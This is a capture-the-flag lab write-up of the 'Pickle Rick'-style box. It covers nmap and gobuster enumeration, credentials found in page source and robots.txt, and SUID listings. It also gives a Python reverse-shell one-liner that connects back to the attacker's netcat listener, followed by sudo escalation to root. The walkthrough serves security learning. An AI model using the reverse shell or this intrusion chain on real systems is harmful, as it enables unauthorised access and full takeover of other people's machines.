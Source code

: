# enumerate
## nmap
```console
bibo318@parrot:~$ sudo python3 pymap.py -t 10.10.238.21
[sudo] password for kali: 
created by gu2rks/kurohat 
find me here https://github.com/gu2rks

port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 08:54 EDT
Nmap scan report for 10.10.238.21
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:ea:72:f3:bb:ee:fd:4f:3a:78:de:fd:f6:23:03:d1 (RSA)
|   256 4f:9e:1c:4b:d6:bb:3b:d4:90:10:99:d2:b6:26:74:bb (ECDSA)
|_  256 e1:f0:0c:69:55:a4:d9:2e:3b:86:a2:74:22:5a:f0:70 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%), Linux 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.89 ms 10.8.0.1
2   43.79 ms 10.10.238.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```
# Port 80
## gobuster
```console
bibo318@parrot:~$ gobuster dir -u http://10.10.238.21/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 54 -x .php,.txt,.html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.21/
[+] Threads:        54
[+] Wordlist:       /usr/share/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2020/07/17 09:01:06 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/07/17 09:02:33 Finished
===============================================================
```
What I found:
1. index.html
```html
<!--

Note to self, remember username!

Username: R1ckRul3s

-->
```
2. robots.txt : `Wubbalubbadubdub`
3. `/login.php` which I assume it will have something to do with `/portal.php` and `/denied.php`
4. /assests : just gif and pic

# flags 1
I was thinking to using Hydra to bruteforce it but I try to log in with all info I have and luckly I got in using what I found in `robots.txt` as a password.


![portal](pic/Screenshot%202020-07-17%20at%2015.09.11.png)

Note: 
- www-data priv
- cant access anything else than `commands`. get message `Only the REAL rick can view this page..`
- cannot ```cat```, ```head```, ```tail```, ```more```

No worry, if we cant `cat` then we can just get the page from webbrowser, there are really interesting file on the `www-data` root directory, view it to get the **frist flag**

# flag 2
clue.txt said `Look around the file system for the other ingredient.` the 2nd flag is in /home/rick. use ```less``` to view it

# flag 3
- suid
```console
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/5742/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/5742/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/5742/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/5742/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/5742/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/5742/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/5742/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/5742/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/5742/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/5742/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/5742/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /snap/core/5742/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Oct 15  2018 /snap/core/5742/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 390888 Jan 29  2016 /snap/core/5742/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jul 13  2018 /usr/bin/pkexec
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98440 Jul 19  2018 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14864 Jul 13  2018 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```
When I sudo, it dint give me back anything... like a jail shell. so I try to spawn a reverse shell with php
```console
bibo318@parrot:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39104
bibo318@parrot:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39106
bibo318@parrot:~$ nc -nvlp 1234
```
it didnt works, the shell is terminated direcly. so I ran ```which python```, ```which python3``` to fine another way. python3 is installed in the server. now spawn reverse shell using the following cmd:
```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
it works
```console
bibo318@parrot:~$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39152
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-238-21.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-238-21.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo root ls /root
sudo: root: command not found
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
```